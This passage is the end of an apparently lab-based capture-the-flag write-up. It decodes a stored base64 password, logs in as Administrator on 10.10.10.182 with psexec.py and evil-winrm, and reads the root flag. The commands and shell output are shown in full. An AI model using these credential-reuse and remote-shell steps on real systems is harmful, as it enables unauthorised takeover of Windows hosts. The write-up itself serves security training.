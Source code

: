 Seems like this account also has the `cascadeLegacyPwd` set. Let us decode the password and try it for the admin account.

```bash
root@darkness:~# echo -n YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

## Admin-Shell

Using the found password `baCT3r1aN00dles` we can now try to login as admin using either `psexec` or `evil-winrm` .

```bash
root@darkness:~# psexec.py cascade.local/administrator:baCT3r1aN00dles@10.10.10.182
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file TzMOycRi.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service SVsq on 10.10.10.182.....
[*] Starting service SVsq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

```powershell
root@darkness:~# evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

We successfully get a shell as Administrator and can read root.txt.

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b029f***************************
```

